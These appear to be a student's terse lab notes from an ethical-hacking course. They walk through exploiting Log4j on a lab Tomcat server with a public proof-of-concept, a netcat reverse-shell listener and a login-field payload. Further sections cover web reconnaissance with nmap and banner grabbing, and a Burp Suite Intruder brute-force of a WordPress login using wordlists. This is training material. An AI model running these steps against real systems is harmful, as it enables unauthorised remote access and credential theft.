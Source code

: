 searchsploit -t Apache RCE

3. Web Server by Exploiting Log4j Vulnerability
nmap -sV -sC 10.10.1.9
8080/Apache Tomcat/Coyote 1.1 vulnerability
for install ubuntu --> sudo apt-get install docker.io, 
cd log4j-shell-poc/ ;
docker build -t log4j-shell-poc;
docker run --network host log4j-shell-poc
install jdk 8 for use --->
tar -xf jdk-8u202-linux-x64.tar.gz
move the jdk1.8.0_202 into /usr/bin/. To do that, type mv jdk1.8.0_202 /usr/bin/
pluma poc.py
line 62, replace jdk1.8.0_20/bin/javac with /usr/bin/jdk1.8.0_202/bin/javac.
line 87 and replace jdk1.8.0_20/bin/java with /usr/bin/jdk1.8.0_202/bin/java. 
line 99 and replace jdk1.8.0_20/bin/java with /usr/bin/jdk1.8.0_202/bin/java.
open new terminal window and type nc -lvp 9001
python3 poc.py --userip 10.10.1.13 --webport 8000 --lport 9001 ------> start the exploitation and create payload
Username field paste the payload that was copied in previous step and in Password field type password and press Login button
whoami
										LAB13. Hacking Web Applications
										
nmap -T4 -A -v [Target Web Application]    -----> In this command, -T4: specifies setting time template (0-5), -A: specifies aggressive scan, and -v: enables the verbose output (include all hosts and ports in the output).
telnet www.moviescope.com 80
GET / HTTP/1.0   --->The result appears, displaying information related to the server name and its version, technology used.
zaproxy ----> OWASP Zed Attack Proxy (ZAP) is an integrated penetration testing tool for finding vulnerabilities in web applications. 
SmartScanner---windows Web Application Vulnerability Scanner
WPScan Vulnerability Database (https://wpscan.com), 
Codename SCNR (https://ecsypno.com), 
AppSpider (https://www.rapid7.com), 
Uniscan (https://github.com) and 
N-Stalker (https://www.nstalker.com).

2. Perform a Brute-force Attack using Burp Suite

go to WordPress login page -----> http://10.10.1.22:8080/CEH/wp-login.php?.
Change Parrot OS HTTP Proxy as 127.0.0.1 and the Port as 8080, v5 to 9050
Launch  Burpsuite CE app ---> Proxy--->  Intercept is on
Go to Wordpress login page and write ----> admin/password and log in.
Switch back to the Burp Suite window;   Now, right-click anywhere on the HTTP request window, and from the context menu, click "Send to Intruder"
Now, click on the Intruder tab from the toolbar and observe that under the Intruder tab, the Positions tab appears by default.
In the Positions tab under the Intruder tab observe that Burp Suite sets the target positions by default, as shown in the HTTP request. 
Click the Clear § button from the right-pane to clear the default payload values.
After select Cluster bomb from the Attack type drop-down list.
set the username and password as the payload values. Then Add § from the right-pane. Similarly, select the password value entered in Step#14 and click Add § from the right-panel.
The symbol '§' will be added at the start and end of the selected payload values. Here the values are admin and password.
Navigate to the Payloads tab under the Intruder tab and ensure that under the Payload Sets section, the Payload set is selected as 1, and the Payload type is selected as Simple list.
Then select Payload settings [Simple list] section, click the Load… button
navigate to the location /home/attacker/Desktop/CEHv13 Module 14 Hacking Web Applications/Wordlist, select the username.txt file, and click the Open button.
load a password file for the payload set 2. To do so, under the Payload Sets section, select the Payload set as 2 from the drop-down options and ensure that the Payload type is selected as Simple list.